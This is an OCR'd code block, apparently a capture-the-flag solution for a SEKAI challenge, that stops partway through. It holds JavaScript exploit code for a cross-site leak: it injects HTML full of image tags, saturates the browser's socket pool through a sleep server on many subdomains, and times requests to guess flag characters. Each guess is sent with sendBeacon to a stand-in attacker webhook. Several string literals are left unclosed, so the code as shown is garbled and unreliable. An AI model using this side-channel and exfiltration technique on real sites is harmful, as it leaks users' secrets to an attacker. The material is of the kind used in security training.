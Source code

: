 ```html
<script>
  // Attacker listening
  const WEBHOOK = "https://WEBHOOK.com/"
  // Send data to attacker
  const log = (id, data) => {
    let payload = JSON.stringify({ known, alphabet, data })
    console.log(id, payload)
    navigator.sendBeacon(WEBHOOK + "?" + id, payload)
  }

  // Similar to JQuery
  const $ = document.querySelector.bind(document)

  // Known part of the flag
  const known = "SEKAI{"
  let alphabet = "_abcdefghijklmnopqrstuvwxyz}"

  // Reduce the alphabet using a hash (#) in the URL
  if (location.hash) {
    alphabet = alphabet.slice(alphabet.indexOf(location.hash.slice(1)))
  }

  // Funtion to leak chars
  const leak = async (c) => {
    // Prepare post with known flag and the new char
    let payload = `${known + c}
    // Inject as many <img as possible
    // you need to respect the CSP and create URLs that are different
    for (let i = 0; payload.length < 2048; i++) {
      payload += `<img src=js/purify.js?${i.toString(36)}>
    }

    // Inject HTML
    $("#create input[type=text]").value = payload
    $("#create").submit()
    await new Promise((r) => setTimeout(r, 1000))

    // Remove post with index 0
    $("#remove").submit()
    await new Promise((r) => setTimeout(r, 500))

    let deltas = []

    // Try each char 3 times
    for (let i = 0; i < 3; i++) {
      const SOCKET_LIMIT = 255
      // you will need a custom server that works like num.sleepserver.com/sleep/delay
      // needed to freeze the blocked sockets, and they have to all be on different origins
      // Check https://www.npmjs.com/package/sleep-server using subdomains DNS wildcard
      const SLEEP_SERVER = (i) => `http://${i}.sleepserver.com/sleep/60

      const block = async (i, controller) => {
        try {
          return fetch(SLEEP_SERVER(i), {
            mode: "no-cors",
            signal: controller.signal,
          })
        } catch (err) {}
      }

      // block SOCKET_LIMIT sockets
      const controller = new AbortController()
      for (let i = 0; i < SOCKET_LIMIT; i++) {
```